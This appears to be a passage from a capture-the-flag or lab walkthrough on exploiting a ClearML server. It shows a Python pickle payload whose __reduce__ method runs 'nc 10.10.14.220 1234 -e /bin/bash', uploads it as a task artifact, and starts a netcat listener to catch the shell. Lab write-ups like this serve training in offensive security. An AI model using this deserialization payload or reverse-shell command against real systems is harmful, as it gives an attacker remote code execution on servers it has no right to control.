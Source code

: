 ```py
if isinstance(data, dict):
            process_json_artifact(data, artifact_name)
        else:
            print(f"[!] Artifact '{artifact_name}' content is not a dictionary.")
```

A python dictionary has the following structure:

```py
dictionary = {'key':'value'}
```

We will create a new class named RunCommand, that we'll pass as a value in the dictionary. This new class will attempt to set up a reverse shell using netcat.

```py
import os

from clearml import Task

""" Create the task with the review tag """
task = Task.init(project_name='Black Swan', task_name='Task', tags=["review"])

""" Create the RunCommand class """
class RunCommand:
    def __reduce__(self):
        return (os.system, ("nc 10.10.14.220 1234 -e /bin/bash",))

""" Create the dictionary and pass an instance as a value in the dict """
dictionary = {'key': RunCommand()}


""" Upload the artifact """
task.upload_artifact('MyObject.json', artifact_object=dictionary)
```

Remember to set up the listener before executing the command:

```sh
nc -lvnp 1234
```

![image](Scr_9.png)

![image](Scr_10.png)


[comment]: <> (Insertar imagen de la carátula de la máquina)